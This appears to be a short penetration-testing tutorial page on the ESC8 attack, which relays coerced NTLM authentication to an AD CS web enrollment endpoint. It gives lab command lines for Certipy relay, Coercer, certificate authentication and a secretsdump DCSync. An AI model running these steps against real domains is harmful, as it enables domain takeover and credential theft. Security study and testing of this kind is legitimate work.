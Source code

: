 ```yaml
---
description: ADCS abuse with NTLM Relay
---
```


# ESC8

NTLM Relay is a MitM attack where an attacker pretends to be the server for the client and vice versa. ADCS support enrollment over HTTP which allows users to request certificates over HTTP.

We can relay HTTP NTLM authentication to a certificate enrollment interface. CA's web enrollment service provides web pages to interact with CA. Usually at `http://<servername>/certsrv/certfnsh.asp`. These endpoints can be abused using authenicated sessions through NTLM Relay.

### <mark style="color:yellow;">ESC8 Abuse</mark>

Start listening with Certipy

```sh
sudo certipy relay -target 172.16.19.5 -template DomainController
```

Then coerce using printerbug, petitpotam or coercer.

```sh
coercer coerce -l 172.16.19.19 -t 172.16.19.3 -u blwasp -p 'Password123!' -d lab.local -v
```

Authenticate

```sh
certipy auth -pfx lab-dc.pfx
```

DCSync

```shell-session
KRB5CCNAME=lab-dc.ccache secretsdump.py -k -no-pass lab-dc.lab.local
```
